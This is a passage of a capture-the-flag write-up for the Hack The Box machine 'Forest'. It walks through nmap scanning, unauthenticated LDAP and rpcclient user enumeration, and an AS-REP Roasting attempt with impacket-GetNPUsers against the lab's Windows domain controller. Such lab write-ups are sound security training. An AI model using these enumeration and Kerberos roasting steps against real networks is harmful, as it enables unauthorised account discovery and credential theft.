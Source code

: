 ```yaml
---
Title: Forest HTB
Rating: Easy
OS: Windows
---
```

# Forest HTB
![Logo](Images/Forest_HTB/forest_logo.png)

*This writeup is for the Forst Hack the Box Machine*

We'll start by enumerating this box using a quick nmap scan running the default scripts:
```bash
└─$ nmap -sC -sV 10.10.10.161 -v -oN nmap_short.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-25 15:00 AWST
Scanning 10.10.10.161 [1000 ports]
---snip---
Discovered open port 53/tcp on 10.10.10.161
Discovered open port 135/tcp on 10.10.10.161
Discovered open port 139/tcp on 10.10.10.161
Discovered open port 445/tcp on 10.10.10.161
Discovered open port 593/tcp on 10.10.10.161
Discovered open port 636/tcp on 10.10.10.161
Discovered open port 389/tcp on 10.10.10.161
Discovered open port 3269/tcp on 10.10.10.161
Discovered open port 3268/tcp on 10.10.10.161
Discovered open port 88/tcp on 10.10.10.161
Discovered open port 5985/tcp on 10.10.10.161
Discovered open port 464/tcp on 10.10.10.161
---snip---
```

The boave shows varios open ports that are associated with Windows Domain services, indicating that this machine is possibly a domain controller
The domain name lookup script from our nmap commnad enumerated the machine to have the net bios name of FOREST, but the domain name of local.htb:
```bash
Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-01-24T23:07:32-08:00
```

The FQDN for the domain shows the forest.htb.local domain. We'll add these additions to our host file to ensure we can perform accurate enumeration. 
`10.10.10.161    htb.local FOREST.htb.local`

I'll start by enumerating the LDAP services as that seems to be the best starting point.
Running the below ldapsearch command produces a slew of information (and confirms that unauthenticated searches are enabled):
`└─$ ldapsearch -x -H ldap://htb.local -b '' >> ldapsearch.txt`

We can extract the logon usernames out of this search result using:
`└─$ ldapsearch -x -H ldap://htb.local -b "dc=htb,dc=local" -s sub "(&(objectclass=user))" sAMAccountName | grep sAMAccountName: | awk -F': ' '{print $2}' >> usernames.txt`


Next We'll use a tool like Rubeus to see if AS-REP Roasting is possible.

AS-REP Roasting is a methodology to scan for user hashes that have Kerberos pre-authenitcation disabled.  
Kerberos pre-auth is a Windows security mechanism that protects against password-guessing attacks. 
It works by responding to an asynchronous server request with a timestamp enabled with the users password hash.
The Keey Distribution Center then validates this hash by confirming the timestamp.

If Pre-authentication is disabled, then the AS-REQ will be directly responded to with the users password hash.
For more information, see the [LDAP WiKi](https://ldapwiki.com/wiki/Wiki.jsp?page=Kerberos%20Pre-Authentication).

We'll audit users that don't require Kerberos Pre-Auth using:
```bash
─$ impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 -k  -usersfile usernames.txt htb.local/ > NoPreAuth.txt
```

*I ran into a dead end here. I back tracked and looked into RPC, used this route to get a list of users*
We'll use `rpcclient` to enumerate users as it seems there's info missing from what I was able to get out of the LDAP records/
```bash
└─$ rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

